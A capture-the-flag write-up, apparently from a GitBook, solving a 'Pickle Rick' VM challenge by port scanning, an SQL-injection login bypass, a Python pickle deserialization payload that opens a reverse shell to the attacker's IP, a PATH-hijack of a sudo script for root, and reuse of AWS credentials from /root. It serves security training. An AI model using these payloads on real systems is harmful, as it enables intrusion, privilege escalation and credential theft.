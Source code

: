 ```yaml
---
description: Yes, the icon is a cucumber
---
```


# 🥒 Pickle Rick

## Description

> Rick has turned himself into a pickle, can you find him before its too late...
>
> Download: [https://drive.google.com/file/d/1ZULGK4p7cJQHNabmDHdtki-g1xNfHu0f/view?usp=share\_link](https://drive.google.com/file/d/1ZULGK4p7cJQHNabmDHdtki-g1xNfHu0f/view?usp=share\_link)
>
> Alternative Download Link: [https://drive.google.com/file/d/1ZTp8qBLRfjitet8nOshTiqIwWDwonCh1/view?usp=share\_link](https://drive.google.com/file/d/1ZTp8qBLRfjitet8nOshTiqIwWDwonCh1/view?usp=share\_link)
>
> 7z Password: \&y9PBYf8gZ^996s9

## TL;DR

* Scan victim machine with nmap to find http running on port 5000
* The website allows uploading of pickle files, upload a pickle RCE reverse shell payload
* Privesc from sudo /opt/clean\_pickle.sh, replacing PATH env to a dir containing a file named 'rm', which creates a shell as root
* Get aws creds from /root dir
* Login to aws using aws cli and list the files in the storage, flag is in the container.

## Solution

### Setup

Unzipping the 7zip file with the password given, we are returned with a `pickle-shop.ova` file which we can open as a virtual machine in VMWare.

After opening it, we start the virtual machine and we are prompted with a login screen. Since we don't know the password, we cannot login.

<figure><img src="../../../.gitbook/assets/image (5) (3).png" alt=""><figcaption><p>Login Screen</p></figcaption></figure>

Let's treat this as a hackthebox kind of challenge. We will open an attacker vm, configure both machines to be in the same network, then nmap the victim machine to see what ports are open.

To configure both vms to be in the same network in VMWare, we have to go to the **VM tab > Settings > Network Adapter**, then select **Custom > VMnet0**. Do the same for the attacker machine.

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption><p>Network Config</p></figcaption></figure>

Now the attacker and victim machines are in the same network, we can run `ip addr` on the attacker machine to check the network we are in.

<figure><img src="../../../.gitbook/assets/image (7) (4).png" alt=""><figcaption><p>ip address</p></figcaption></figure>

For me, my machine's ip address is `192.168.10.133` and it is in the `192.168.10.0.24` network.

To find the ip address of the victim machine, we can just do a ping sweep of the network by running `nmap -sP 192.168.10.1-255`. This command tells us which hosts are up.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption><p>pickle-shop ip addr</p></figcaption></figure>

In my case, the victim's machine ip address is `192.168.10.142`. We now scan for open ports and their services by running `nmap -sC -sV -T4 -p- 192.168.10.142`.

<details>

<summary>nmap result</summary>

```
tarting Nmap 7.92 ( https://nmap.org ) at 2023-04-17 11:26 EDT
Nmap scan report for pickle-shop (192.168.10.142)
Host is up (0.11s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.10.6
|     Date: Mon, 17 Apr 2023 15:28:48 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 1461
|     Connection: close
|     <html>
|     <head>
|     <title>Login Page</title>
|     <style>
|     body {
|     font-family: Arial, sans-serif;
|     text-align: center;
|     font-size: 2em;
|     margin-top: 50px;
|     form {
|     display: inline-block;
|     margin-top: 50px;
|     padding: 20px;
|     border: 1px solid #ccc;
|     border-radius: 5px;
|     box-shadow: 2px 2px 5px #ccc;
|     input[type="text"],
|     input[type="password"] {
|     padding: 10px;
|     font-size: 1.2em;
|     width: 100%;
|     margin-bottom: 20px;
|     border: 1px solid #ccc;
|     border-radius: 5px;
|     input[type="submit"] {
|     padding: 10px 20px;
|     font-size: 1.2em;
|     background-color: lightblue;
|     color: white;
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.92%I=7%D=4/17%Time=643D65B0%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,664,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\x20
SF:Python/3\.10\.6\r\nDate:\x20Mon,\x2017\x20Apr\x202023\x2015:28:48\x20GM
SF:T\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2
SF:01461\r\nConnection:\x20close\r\n\r\n<html>\n\n<head>\n\x20\x20<title>L
SF:ogin\x20Page</title>\n\x20\x20<style>\n\x20\x20\x20\x20body\x20{\n\x20\
SF:x20\x20\x20\x20\x20font-family:\x20Arial,\x20sans-serif;\n\x20\x20\x20\
SF:x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x2
SF:0h1\x20{\n\x20\x20\x20\x20\x20\x20font-size:\x202em;\n\x20\x20\x20\x20\
SF:x20\x20margin-top:\x2050px;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x20form\
SF:x20{\n\x20\x20\x20\x20\x20\x20display:\x20inline-block;\n\x20\x20\x20\x
SF:20\x20\x20margin-top:\x2050px;\n\x20\x20\x20\x20\x20\x20padding:\x2020p
SF:x;\n\x20\x20\x20\x20\x20\x20border:\x201px\x20solid\x20#ccc;\n\x20\x20\
SF:x20\x20\x20\x20border-radius:\x205px;\n\x20\x20\x20\x20\x20\x20box-shad
SF:ow:\x202px\x202px\x205px\x20#ccc;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x2
SF:0input\[type=\"text\"\],\n\x20\x20\x20\x20input\[type=\"password\"\]\x2
SF:0{\n\x20\x20\x20\x20\x20\x20padding:\x2010px;\n\x20\x20\x20\x20\x20\x20
SF:font-size:\x201\.2em;\n\x20\x20\x20\x20\x20\x20width:\x20100%;\n\x20\x2
SF:0\x20\x20\x20\x20margin-bottom:\x2020px;\n\x20\x20\x20\x20\x20\x20borde
SF:r:\x201px\x20solid\x20#ccc;\n\x20\x20\x20\x20\x20\x20border-radius:\x20
SF:5px;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x20input\[type=\"submit\"\]\x20
SF:{\n\x20\x20\x20\x20\x20\x20padding:\x2010px\x2020px;\n\x20\x20\x20\x20\
SF:x20\x20font-size:\x201\.2em;\n\x20\x20\x20\x20\x20\x20background-color:
SF:\x20lightblue;\n\x20\x20\x20\x20\x20\x20color:\x20white;\n\x20\x20\x20\
SF:x20\x20")%r(RTSPRequest,1F4,"<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//D
SF:TD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\x20\x20\x20\x20\"http://www
SF:\.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\x20\x20\x20\x20<head>\n\x20
SF:\x20\x20\x20\x20\x20\x20\x20<meta\x20http-equiv=\"Content-Type\"\x20con
SF:tent=\"text/html;charset=utf-8\">\n\x20\x20\x20\x20\x20\x20\x20\x20<tit
SF:le>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x20\x20\x20\x20
SF:<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20response</h1>\n\x2
SF:0\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>\n\x20\x20\x20
SF:\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20version\x20\('RTSP
SF:/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code\x20exp
SF:lanation:\x20HTTPStatus\.BAD_REQUEST\x20-\x20Bad\x20request\x20syntax\x
SF:20or\x20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n
SF:");
MAC Address: 00:0C:29:80:47:CE (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 196.93 seconds
```

</details>

The results show that http is being hosted on port `5000`. Let's visit it through a web browser.

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

We find that it is a simple login page. Looking at the source code doesn't return any useful info, so let's perform the usual ritual of trying SQL Injection.

Inputting `"` as the username returns an error message 'why u break my website smh :crying emoji:!'.

We can try the generic payload `"or"1"="1`that returns `true` for logging in, but another error message is returned 'Hacker Detected :skull: x7, mai geh siao, try harder leh'. It seems that this challenge creator is a hard sadist and included a bunch of words in his list of nono words :man\_facepalming::man\_facepalming::man\_facepalming:.

After trying different payloads, the simplest payload that bypasses the login is `"or"` for the username and password.

Now we are logged in and we can upload a pickle :cucumber:.

### Pickle RCE

We know the generic pickle insecure deserialization to RCE, so it is most likely it in this case.

I always refer to this [article](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) for python pickle RCE.

So we create our own python pickle serializer according to the article and create a payload that creates a reverse shell.

{% tabs %}
{% tab title="pickle.py" %}
```python
import base64
import codecs
import pickle

class RCE:
    def __reduce__(self):
        import os
        cmd = ("""python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.10.133",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'""")
        return os.system, (cmd,)

pickled = pickle.dumps(RCE())

with open('pickle','wb') as f: f.write(pickled)
```
{% endtab %}

{% tab title="Second Tab" %}

{% endtab %}
{% endtabs %}

Start a netcat listener, upload the pickle file, and we have a shell!

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption><p>shell</p></figcaption></figure>

### Privesc

The first thing I tried to run is `sudo -l` to check what commands I could run with sudo privilege.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (2).png" alt=""><figcaption><p>sudo -l</p></figcaption></figure>

This states that we can run `/opt/clean_pickle.sh` with root privileges without needing a password. Let's check what is in `clean_pickle.sh`.

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption><p>clean_pickle.sh</p></figcaption></figure>

The bash script uses runs `rm` without an absolute path. What this means is that instead of running `/usr/bin/rm -r ...`, it just runs `rm -r ...`.

This is vulnerable to **Command Forgery**. We abuse this by creating our own `rm` bash script under any directory, in this case we chose the `/tmp` directory. The `rm` file should contain:

```bash
#!/bin/bash
/bin/bash
```

This is to get a shell as root when root executes this `rm` bash script.

Run `chmod 777 /tmp/rm` to make it executable.

Now we can run `sudo PATH=/tmp:$PATH /opt/clean_pickle.sh` to run `clean_pickle.sh` as root, with the modified `PATH` environment variable to where our `rm` resides.

<figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption><p>privesc</p></figcaption></figure>

And now we have root!

### Pivoting to Cloud

Looking at `/root`, we see there is a `.aws` directory and a `credentials` file inside.

<figure><img src="../../../.gitbook/assets/image (24) (2).png" alt=""><figcaption><p>aws creds</p></figcaption></figure>

We can sign in to aws cli using  this credential. I modified `~/.aws/credentials` to add the id and key (you will have to install aws cli first). You can also run `aws configure` and input the id and key appropriately.

<figure><img src="../../../.gitbook/assets/image (6) (2).png" alt=""><figcaption><p>local aws creds</p></figcaption></figure>

Now time to find where the flag actually is.

### Finding the flag

The most common enumeration method for aws cloud is to list the buckets the account have access to. We can run `aws s3api list-buckets` to list the buckets.

The aws key is now sadly revoked and invalid, so I can't show the last few steps.

<figure><img src="../../../.gitbook/assets/image (3) (1) (4).png" alt=""><figcaption><p>failure</p></figcaption></figure>

The flag is in one of the buckets and you can just use aws cli to get it.

Unfortunately, there was no pickle rick at all :disappointed\_relieved:
